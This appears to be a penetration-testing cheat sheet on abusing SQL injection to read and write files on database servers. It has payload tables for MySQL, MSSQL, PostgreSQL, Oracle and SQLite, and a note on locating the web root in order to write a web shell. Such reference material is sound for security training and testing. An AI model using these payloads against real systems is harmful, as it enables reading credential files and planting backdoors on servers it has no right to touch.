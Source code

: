 * * *

# Files
First, we have to determine which user we are within the database. While we do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern DBMSes, as only DBA are given such privileges. The same applies to other common databases. If we do have DBA privileges, then it is much more probable that we have file-read privileges. If we do not, then we have to check our privileges to see what we can do.

## Read

| DBMS       | Payload                                                             |
|------------|---------------------------------------------------------------------|
| MySQL      | LOAD_FILE('/path/to/file')                                          |
| MSSQL      | OPENROWSET(BULK 'C:\path\to\file', SINGLE_CLOB)                     |
| PostgreSQL | PG_READ_FILE('/path/to/file')                                       |
| Oracle     | utl_file.get_line(utl_file.fopen('/path/to/','file','R'), <buffer>) |
| SQLite     | readfile('/path/to/file')                                           |

To be able to write files to the back-end server using a MySQL database, we require three things:

* User with FILE privilege enabled
* MySQL global secure_file_priv variable not enabled
* Write access to the location we want to write to on the back-end server


## Write
`Note: To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use load_file to read the server configuration, like Apache's configuration found at /etc/apache2/apache2.conf, Nginx's configuration at /etc/nginx/nginx.conf, or IIS configuration at %WinDir%\System32\Inetsrv\Config\ApplicationHost.config, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using ` [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)` or `[this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)`. Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.`


| DBMS       | Payload                                                             |
|------------|---------------------------------------------------------------------|
| MySQL      | SELECT 'contents' INTO OUTFILE '/path/to/file'                                          |
| MSSQL      | execute spWriteStringToFile 'contents', 'C:\path\to\', 'file'                     |
| PostgreSQL | COPY (SELECT 'contents') TO '/path/to/file'                                       |
| Oracle     | utl_file.put_line(utl_file.fopen('/path/to/','file','R'), <buffer>) |
| SQLite     | SELECT writefile('/path/to/file', column_name) FROM table_name                                           |
